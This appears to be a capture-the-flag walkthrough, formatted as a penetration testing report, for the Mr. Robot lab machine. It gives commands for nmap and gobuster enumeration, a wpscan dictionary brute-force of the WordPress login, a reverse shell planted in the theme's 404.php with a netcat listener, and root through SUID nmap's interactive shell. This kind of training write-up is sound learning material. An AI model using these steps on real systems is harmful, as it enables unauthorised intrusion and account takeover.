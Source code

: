 
# 🔍 Mr. Robot CTF Walkthrough – A Penetration Testing Report

> Author: YourNameHere  
> Date: May 15, 2025  
> Machine: Mr. Robot (VulnHub / TryHackMe)  
> Difficulty: Medium  
> IP Address: `10.10.10.100`  

---

## 🧠 Objective

This report details the steps taken to compromise the *Mr. Robot* vulnerable machine. The goal is to obtain user and root flags using a combination of web enumeration, password cracking, and local privilege escalation.

---

## 🔎 1. Reconnaissance

### 🔍 Nmap Scan

```bash
nmap -sC -sV -oN nmap/initial.txt 10.10.10.100
```

**Results:**

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu
80/tcp   open  http    Apache httpd 2.4.7
```

### 🌐 Web Enumeration

Visited `http://10.10.10.100/` in browser.

- Found a **robot-themed website**.
- `robots.txt` revealed two interesting entries:
  ```
  User-agent: *
  Disallow: /fsocity.dic
  Disallow: /key-1-of-3.txt
  ```

### 🧰 Gobuster

```bash
gobuster dir -u http://10.10.10.100 -w /usr/share/wordlists/dirb/common.txt
```

- Found `/admin`, `/license`, `/images`, etc.
- No login forms, but `/fsocity.dic` is downloadable — appears to be a **dictionary file**.

---

## 🔓 2. Exploitation

### 🧪 Using `fsocity.dic` for WordPress Login Brute-force

Identified that the site uses **WordPress** (`wp-login.php` exists).

Used **wpscan**:

```bash
wpscan --url http://10.10.10.100 --wordlist fsocity.dic --username elliot
```

Successfully logged in as **elliot**.

### 🧬 Reverse Shell

Uploaded a **reverse shell** using WordPress theme editor (modified 404.php).

Set listener:

```bash
nc -lvnp 4444
```

Triggered reverse shell by visiting the modified file in browser.

---

## 🔐 3. Privilege Escalation

Enumerated user and found:

```bash
cat key-1-of-3.txt
```

### 🔍 Local Enumeration

Found SUID binary: `nmap`

```bash
nmap --interactive
> !sh
```

Got root shell via `nmap` interactive mode.

---

## 🏁 4. Flags

```bash
cat /home/robot/key-2-of-3.txt
```

```bash
cat /root/key-3-of-3.txt
```

---

## 📄 Summary

| Phase         | Technique / Tool                  | Result         |
|---------------|-----------------------------------|----------------|
| Recon         | Nmap, Gobuster                    | Identified WordPress |
| Exploitation  | Wpscan, fsocity.dic brute-force   | Gained user shell |
| Priv Esc      | SUID nmap                         | Root shell obtained |
| Flags         | Text files                        | ✅ All 3 flags captured |

---

## 🧠 Lessons Learned

- Always check `robots.txt` — goldmine for hidden files.
- Dictionary files can be reused for brute-force attacks.
- SUID binaries like `nmap`, `vim`, or `less` are classic privilege escalation vectors.

---

## 🧰 Tools Used

- Nmap
- Gobuster
- WPScan
- Netcat
- Burp Suite (for some traffic analysis)

---

## 📎 Tags

`#CTF` `#TryHackMe` `#VulnHub` `#WordPress` `#PrivilegeEscalation` `#Linux` `#Pentesting`

---

> ✍️ *Thanks for reading! If you found this useful, follow me for more walkthroughs and real-world pentest content.*
